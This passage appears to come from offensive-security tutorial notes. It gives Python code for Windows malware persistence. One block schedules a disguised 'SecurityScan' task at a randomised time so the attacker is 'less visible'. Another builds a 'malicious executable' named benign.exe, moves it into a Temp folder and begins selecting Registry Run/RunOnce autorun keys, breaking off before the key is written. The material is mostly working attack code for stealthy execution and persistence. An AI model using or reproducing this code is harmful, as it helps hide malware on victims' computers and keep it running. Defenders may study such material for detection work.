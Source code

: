 ```python
maxInterval = 1
# random library for task running, random makes us less visible
interval = 1+(random.random()*(maxInterval-1))
# for more precise time interval we can take help of schtask documentation
dt = datetime.now() + timedelta(minutes=interval)
# string operation to create desired time to execute
t = "%s:%s" % (str(dt.hour).zfill(2),str(dt.minute).zfill(2))
d = "%s/%s/%s" % (dt.month,str(dt.day).zfill(2),dt.year)
# running the task using os library
os.system('schtasks /create /tn SecurityScan /tr "'+filedir+'" /sc once /st '+t+' /sd '+d)
# sc once - run once
# st - time to run it
# sd - date to run it
# tn - task name
# tr - task run - provide directory
input()
```

## Python For Persistence

1. Boot or Logon Autostart Execution - Registry Autorun
2. Hijack Execution Flow - Modified Path

### Boot or Logon Autostart Execution

[winreg - Windows registry access - Python 3.10.5 documentation](https://docs.python.org/3/library/winreg.html)

## Registry Autorun Using os, shutil, winreg

```python
import os, shutil, winreg

filedir = os.path.join(os.getcwd(),"Temp")
filename = "benign.exe"
filepath = os.path.join(filedir,filename)
# cleanup
if os.path.isfile(filepath):
    os.remove(filepath)

# Use BuildExe to create malicious executable
os.system("python BuildExe.py")

# Move malicious executable to desired directory
shutil.move(filename,filedir)

# Windows default autorun keys:
# HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
# HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
# HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
# HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce

regkey = 1

if regkey < 2:
    reghive = winreg.HKEY_CURRENT_USER
else:
    reghive = winreg.HKEY_LOCAL_MACHINE
if (regkey % 2) == 0:
    regpath = "SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
else:
    regpath = "SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"

```
